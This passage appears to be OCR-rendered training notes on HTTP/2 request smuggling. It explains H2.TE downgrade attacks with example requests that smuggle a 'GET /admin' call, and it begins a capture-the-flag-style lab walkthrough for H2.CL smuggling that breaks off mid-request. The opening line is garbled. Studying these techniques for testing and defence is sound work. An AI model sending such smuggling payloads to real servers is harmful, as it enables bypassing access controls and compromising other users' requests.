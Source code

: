     x=1GET / H

## H2.TE vulnerabilities
Chunked transfer encoding is incompatible with HTTP/2 and the spec recommends that any `transfer-encoding: chunked` header you try to inject should be stripped or the request blocked entirely. If the front-end server fails to do this, and subsequently downgrades the request for an HTTP/1 back-end that does support chunked encoding, this can also enable request smuggling attacks.

**Front-end (HTTP/2)**

    :method	POST
    :path	/example
    :authority	vulnerable-website.com
    content-type	application/x-www-form-urlencoded
    transfer-encoding	chunked
    
    0

    GET /admin HTTP/1.1
    Host: vulnerable-website.com
    Foo: bar

**Back-end (HTTP/1)**

    POST /example HTTP/1.1
    Host: vulnerable-website.com
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked

    0

    GET /admin HTTP/1.1
    Host: vulnerable-website.com
    Foo: bar

### LAB: H2.CL request smuggling
First test for HTTP/2 downgrading. Send this request 2 times:

    POST / HTTP/2
    Host: 0a4500f704717dfa80f52195007d007e.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 0

    x=

If we get an `404 Not Found` this indicates that HTTP/2 downgrading is happening. Notice an open redirect vulnerability in this request:

    GET /resources
    Host: 0a4500f704717dfa80f52195007d007e.web-security-academy.net

    HTTP/2 302 Found
    Location: https://0a4500f704717dfa80f52195007d007e.web-security-academy.net/resources/

Make use of that, send this HTTP smuggling request:

    POST / HTTP/2
    Host: 0a4500f704717dfa80f52195007d007e.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 0
